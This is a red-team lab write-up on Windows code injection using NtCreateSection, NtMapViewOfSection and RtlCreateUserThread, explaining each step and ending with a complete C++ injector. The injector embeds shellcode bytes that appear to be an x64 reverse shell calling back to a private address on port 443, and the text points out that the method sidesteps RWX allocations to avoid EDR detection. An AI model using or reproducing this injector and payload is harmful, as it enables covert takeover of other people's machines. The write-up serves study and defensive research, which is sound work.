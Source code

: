 # NtCreateSection + NtMapViewOfSection Code Injection

## Overview

This lab is for a code injection technique that leverages Native APIs `NtCreateSection`, `NtMapViewOfSection` and `RtlCreateUserThread`.

* Section is a memory block that is shared between processes and can be created with `NtCreateSection` API 
* Before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`
* Multiple processes can read from and write to the section through the mapped views

High level overwiew of the technique:

* Create a new memory section with RWX protection
* Map a view of the previously created section to the local malicious process with RW protection
* Map a view of the previously created section to a remote target process with RX protection. Note that by mapping the views with RW \(locally\) and RX \(in the target process\) we do not need to allocate memory pages with RWX, which may be frowned upon by some EDRs.
* Fill the view mapped in the local process with shellcode. By definition, the mapped view in the target process will get filled with the same shellcode
* Create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode

## Execution

Let's create a new memory section in the local process, that will have RWX access rights set:

```cpp
fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

We can see the section got created and we obtained its handle 0x88:

![](../../.gitbook/assets/image%20%28103%29.png)

Let's create an RW view of the section in our local process and obtain its address which will get stored in `localSectionAddress`:

```cpp
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
```

![](../../.gitbook/assets/image%20%28111%29.png)

Let's create another view of the same section in a target process \(notepad.exe PID 6572 in our case\), but this time with RX protection. The memory address of the view will get stored in `remoteSectionAddress` variable:

![](../../.gitbook/assets/image%20%28284%29.png)

We can now copy the shellcode into our `localSectionAddress`, which will get automatically mirrored/reflected in the `remoteSectionAddress` as it's a view of the same section shared between our local and target processes:

```cpp
memcpy(localSectionAddress, buf, sizeof(buf));
```

Below shows how the `localSectionAddress` gets filled with the shellcode and at the same time the `remoteSectionAddress` at `0x000002614ed50000` inside notepad \(on the right\) gets filled with the same shellcode:

![](../../.gitbook/assets/populating-section-with-shellcode.gif)

We can now create a remote thread inside the notepad.exe and make the `remoteSectionAddress` its start address in order to trigger the shellcode:

```cpp
fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```

![](../../.gitbook/assets/rtlcreateuserthreadshell.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {	ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,	HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
	
	// create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
	// create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;
}
```

## References

{% embed url="http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views" %}

